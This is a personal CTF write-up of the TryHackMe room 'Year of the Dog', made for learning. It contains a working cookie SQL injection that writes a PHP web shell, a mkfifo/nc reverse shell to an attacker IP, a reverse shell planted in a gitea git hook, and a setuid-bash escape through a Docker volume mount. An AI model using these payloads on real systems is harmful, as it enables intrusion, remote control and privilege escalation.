 # Year of the Dog

https://tryhackme.com/room/yearofthedog

A hard room that required *a lot* of enumeration before I figured it out, including a few dead ends.

## Getting a shell

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
- the following got me a reverse shell: `/shell.php?e=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.154.104+4444+>/tmp/f`. this was then stabilised and improved with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and then `export TERM=xterm`, Ctrl + Z, `stty raw -echo; fg`

## Getting user

- on the box as `www-data`, I discovered `dylan` was running an instance of gitea (a self contained git server, like gitlab or github) on port `3000`. not accessible from the outside, however, via  `ssh -N -R 3000:localhost:3000 root@10.10.154.104` I could get access to it on my attack machine.
- enumerating this for *hours* got me nowhere. eventually, i went back over the machine with `linpeas.sh` and checked over a file I had seen earlier: `work_analysis`, plain ascii, in dylan's home dir. I had checked this before, seen it as a list of sshd failures with nothing of note. on the second check, huge facepalm, I found it had an entry for a failed login that was obviously the user dylan typing his password as his username. trying this I was able to `su` as dylan.

## Getting root

This was complex. Dylan owned all the files in /gitea, so I figured it was something to do with that.

- i tried to find the gitea executable via `find / -name gitea -type f 2>/dev/null`. I couldn't find it, but i did find git hook config files for each repo
- i had already created a test repo, and it had a file here: `/gitea/git/repositories/dylan/test-repo.git/hooks/update.d/gitea`, the contents of which looked like a standard bash file
- i appended a reverse shell call and then updated the repo. I got a call back! as user `git`
- git had rights to sudo as everything, so I elevated to root and done... right?
- quickly realised I was in a docker container on the main machine, and so no. also, it wasn't a privileged container.
- HOWEVER, the /data/gitea folder inside the container was mapped to /gitea/gitea on the host and they hadn't enabled user remapping in docker! documented here, https://docs.docker.com/engine/security/userns-remap/, in brief, it stops root inside the container from ALSO being effectively root on the host.
- so the final exploit was to copy bash into that mapped folder, use the container root to invoke `chown root bash` and `chmod u+s bash` then invoke it from outside as dylan via `./bash -p`. Boom, root

Very fun, very long. Spent around four hours on this - mostly trying to get various gitea exploits to run. That reverse port forward was ultimately unnecessary, but worth learning for the future.
